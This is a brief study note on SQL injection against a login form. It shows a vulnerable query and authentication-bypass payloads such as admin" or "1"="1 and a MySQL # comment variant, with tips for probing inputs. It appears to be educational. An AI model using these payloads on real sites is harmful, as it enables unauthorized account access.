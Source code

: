 ```yaml
---
tags: [security, sqli, web]
---
```


On Login Page the value for username and password is controlled by the user

````sql
-- Backend Query Sample
SELECT * 
FROM login 
WHERE username="$USERNAME" AND password="$PASSWORD"; 
````

We can enter the values as `admin" or "1"="1` which forms valid SQL query
1=1 is always true and the OR clause nullifies the WHERE statement

````sql
SELECT * 
FROM login 
WHERE username="admin" OR "1"="1" AND password="admin" OR "1"="1";
````

\# is considered as comment in MySQL. So second half off query is ignored

````sql
SELECT * 
FROM login 
WHERE username="admin" OR 1=1#" and password="admin";
````

Depending on DB being used different types of comments can be used
For string values " or ' will be used depending on DB
If the input field only takes numbers then `1' or 1=1#` can be used
Not all websites is going to produce error so play around with ', and, or (True and False) statements are check if desired output is produced
